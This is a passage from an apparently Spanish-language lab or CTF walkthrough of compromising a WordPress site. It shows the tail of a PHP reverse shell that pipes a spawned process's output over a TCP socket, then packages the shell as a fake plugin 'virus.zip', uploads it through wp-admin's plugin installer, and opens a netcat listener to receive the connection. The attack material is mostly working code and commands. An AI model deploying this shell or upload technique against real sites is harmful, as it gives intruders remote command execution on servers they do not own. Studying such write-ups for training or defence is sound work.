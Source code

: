 ```php

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 

```

Ahora comprimimos nuestro archivo: 
```bash
zip -r virus.zip shellPluggin.php
  adding: shellPluggin.php (deflated 59%)
```
### Ejecucion del Ataque
En esta ruta subiremos el **pluggin** que hemos comprimido:
```bash
http://escolares.dl/wordpress/wp-admin/plugin-install.php
```
### Intrusion
Nos permita cargar un **pluggin** asi que subimos el nuestro **virus.zip**: una ves subido primero nos pones en escucha
```bash
nc -nlvp 433
```
